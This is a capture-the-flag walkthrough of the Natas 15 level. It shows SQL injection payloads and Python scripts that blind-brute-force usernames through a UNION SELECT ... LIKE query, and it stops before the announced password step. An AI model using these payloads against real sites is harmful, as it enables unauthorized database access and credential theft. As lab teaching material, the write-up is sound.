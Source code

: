 # Natas 15 walkthrough
As always, we first introduce our credentials, and the first thing we see is this:
![alt text](media/front-end.png)
We see a form, that ask us to introduce an username, and then when we click the check existence button to send the post request. Lets try to introduce a random name, like "username".

![alt text](media/image1.png)
We get redirected to the following page 
![alt text](media/image2.png)

An as a result, the we see the text "This user doesn't exist.", this will be useful later in the script. 
So from what we have gathered by now, we can guess that if we put an username that exists, maybe the text that appears will be different.

Still we don't have much information, so we will see the source code.
![alt text](media/source_code.png) 

And looking at it, we see two important things, someone left the schema of the database in a comment, and we see that they are using a query. And another thing that is useful that we have a debug variable that we can add in the request, so we can see the query generated. 

To solve this problem, we can divide it the following parts: Code injection, finding the usernames, finding the password.

## Code Injection

For me at least, this was the part that took more time, because to create the query, I had to use my imagination and creativity. And also have to find a way to confirm that I can inject code.

### Confirming the code injection
To see if it's possible to inject code into this form, I created this function to help me (Before you look at it, you could try it for yourself!).
```python
#Function to see if we can inject code
def test_code_injection():
    payload = {'debug':'True','username': "\" OR \"1=1" }
    r= session.post(url,auth=(username, password),data=payload)
    print(f"this is the content {r.content}")
    if b"This user exist" in r.content:
        print(f"look we injected code!")
```
I set the debug variable to true, because it's helpful, and used an old friend (" OR "1=1) to verify if it's possible to inject code, and also left a print of the content, because when I was trying to write our old friend, I've made a lot of syntaxs errors, so it did not worked out at the first try hahaha. And it finally worked as you can see in this output.
![alt text](media/output.png)

### Creating the query

If we thing about the restrictions of the problem, we can see that we can not know the specifics values of the columns in the database, so the first question is, **how can we guess them?** And so while I was thinking on this, I did a little research on how to do queries, and found something very useful, and it is the LIKE keyword and using it with the % operator, we can do brute force to guess how does the values stored in the database are written. And also needed to use the JOIN keyword, so we can use the things mentioned before. And why we have to guess it? Because of the information that the page is giving us, we can only know when we are on the right track by seeing the content displayed in the page that says "This user exists."
So finally, the injected code will look like this:

<span style="color: #FF5F0F;">" UNION SELECT * from users WHERE username LIKE "<random_char>%</span>

I used the UNION keyword, because that's the way I found that I can be guessing the values stored in the database and felt more comfortable, maybe there is another way.

## Finding the usernames
We need to find first the usernames, because in this way, when we want to obtain the password of any username, we can shorten the guess for the password. So we are going to use injection created before in order to guess with which character does all the usernames start with, why? Because the brute force will be shorten, and we don't have to try all the possible combinations of characters. And also, after we find the firsts characters of every username, we have to know their full name.
```python
#This function find the first initial character of the usernames stored in the database
def get_start_char(characters):
    start_char = []
    for char in characters:
        print(f"trying with {char}")
        payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+char+"%" }
        r= session.post(url,auth=(username, password),data=payload)
        if b"This user exist" in r.content:
            print(f"we found the following character {char}")
            start_char.append(char)
    return start_char
              
#Function to obtain the usernames stored in the database
def obtain_usernames(username,password,session,url):
    characters = 'qwertyuiopñlkjhgfdsazxcvbnm1234567890QWERTYUIOPÑLKJHGFDSAZXCVBNM*?!#$&/()='
    contador = 0
    #['ñ','a', 'c', 'b', 'n', 'Ñ', 'A', 'C', 'B', 'N']
    start_users = get_start_char(characters)
    full_name = []
    for user_to_find in start_users:
        while True:
            if contador == len(characters)-1:
                full_name.append(user_to_find)
                contador=0
                break
            print(f"trying with {user_to_find}{characters[contador]}")
            test = user_to_find+ characters[contador]
            payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+test+"%" }
            r= session.post(url,auth=(username, password),data=payload)
            if b"This user exist" in r.content:
                print(f"We've got a match with {characters[contador]}")
                user_to_find +=characters[contador]
                contador=0
            contador+=1
    print(f"The users are \n: {full_name}")
    return full_name
```
<figure>
    <video width="320" height="240" controls>
        <source src="media/video_get_names.mp4" type="video/mp4">
        Your browser does not support the video tag.
    </video>
    <figcaption>Video showing brute force of the usernames</figcaption>
</figure>


